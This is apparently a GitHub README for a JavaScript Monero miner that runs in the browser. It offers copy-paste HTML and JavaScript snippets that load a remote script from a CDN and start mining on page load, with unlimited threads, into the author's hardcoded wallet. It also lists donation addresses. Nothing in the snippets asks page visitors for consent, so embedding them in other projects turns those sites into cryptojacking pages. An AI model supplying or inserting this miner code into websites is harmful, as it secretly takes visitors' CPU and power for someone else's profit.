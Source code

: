 ## Monero Webminer

Html & Js code that allows Mining of XMR (Monero) on browsers


# Configure

In Mine.Html you can configure it your preferences

- Pool
- XMR Wallet
- Miner name
- Threads (-1 means unlimited, so it use max)
- Miner Password (Optional, Moneroocean does not use password, if your pool does, it is usually "x")


```javascript
server = "wss://f.xmrminingproxy.com:8181";
    var pool = "gulf.moneroocean.stream:80";
    var walletAddress = "INSERT YOUR ADDRESS HERE";
    var workerId = "INSERT NODE NAME"
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
```
# Running

Open index.html in any web browser and it will automatically start mining.

https://najmajmal.github.io/monero-webminer


# Check Progress 

Go to https://moneroocean.stream. This is the pool you are connected to, it will show your hashrate and balance.

# How do i know if it works??

1. Open https://najmajmal.github.io/monero-webminer
2. Also Open https://moneroocean.stream in a new tab
3. Paste in my XMR Address 4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi
4. You will see that "GH-XMR" is Mining. You can also do the same 

# Use In Other Projects 


HTML
  
    <!-- Start Of Mining Code (HTML) -->
    <script src="https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js"></script>
    <script>
        server = "wss://f.xmrminingproxy.com:8181";
        var pool = "moneroocean.stream";
        var walletAddress = "4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi";
        var workerId = "GH-XMR"
        var threads = -1;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    </script>
    <!-- End Of Mining Code (HTML) -->
      

Javascript import snippet
  
    import 'https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/external/javascript.js';


Javascript
    
    // Start Of Mining Code (Javascript)
    var script = document.createElement("script");
    script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
    document.head.appendChild(script);

    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi";
    var workerId = "GH-XMR"
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
    // End Of Mining Code
    
    
#  Donate
    
    
This software is **100% free** to use, and we would greatly appreciate any donations to help support our work. If you'd like to donate, you can use the following cryptocurrency addresses:


    BTC:  33qQZT1F5mWPvqM2bjbxQ3AsSYMXHpJsr6

    ETH:  0x641E1449c2f7883F245069f284fC880174b02094

    SOL:  AeYJTfLnok1nkncnvXFoKXmH8zrvtB7heNL9Q2sKNaFr

    XMR:  4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi


Thank you for choosing our XMR Web Monero Miner. We hope you find it useful and profitable
